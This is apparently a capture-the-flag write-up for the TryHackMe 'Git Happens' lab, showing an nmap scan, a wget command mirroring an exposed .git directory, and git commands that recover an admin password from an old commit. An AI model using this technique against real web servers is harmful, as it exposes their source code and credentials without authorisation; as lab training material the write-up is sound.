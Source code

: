# TryHackMe Git Happens

<div style="text-align: center;">
  <img src="/assets/git-happens1.webp" alt="mannaully
" width="600">
</div>

```
TryhackMe Machine:- Git Happens
Machine Info:- (Git)
Machine Level:- Easy
```

---
Started of with nmap scan

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 17:50 ISTNmap scan report for 10.10.77.136Host is up (0.16s latency).Not shown: 999 closed tcp ports (conn-refused)PORT   STATE SERVICE VERSION80/tcp open  http    nginx 1.14.0 (Ubuntu)|_http-title: Super Awesome Site!|_http-server-header: nginx/1.14.0 (Ubuntu)| http-git:|   10.10.77.136:80/.git/|     Git repository found!|_    Repository description: Unnamed repository; edit this file 'description' to name the...Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 48.08 seconds
```

We can see /.git/ folder is there lets get this whole /.git/ .

```bash
wget --mirror -I .git http://10.10.77.136/.git/
```

Now cd into 10.10.77.136 and check the using git show.

Then use git status and then use.

```bash
git reset HEAD --hard 
```

Now using the git log command to see oneline commets.

```bash
git log --oneline --graph
```

<div style="text-align: center;">
  <img src="/assets/git-happens2.webp" alt="mannaully
" width="600">
</div>

You will see that HEAD 395e087 nothing significant was here now lets check the index.html and you will see the the password and the flag there use the admin password as flag.

<div style="text-align: center;">
  <img src="/assets/git-happens3.webp" alt="mannaully
" width="600">
</div>

Thank you for reading
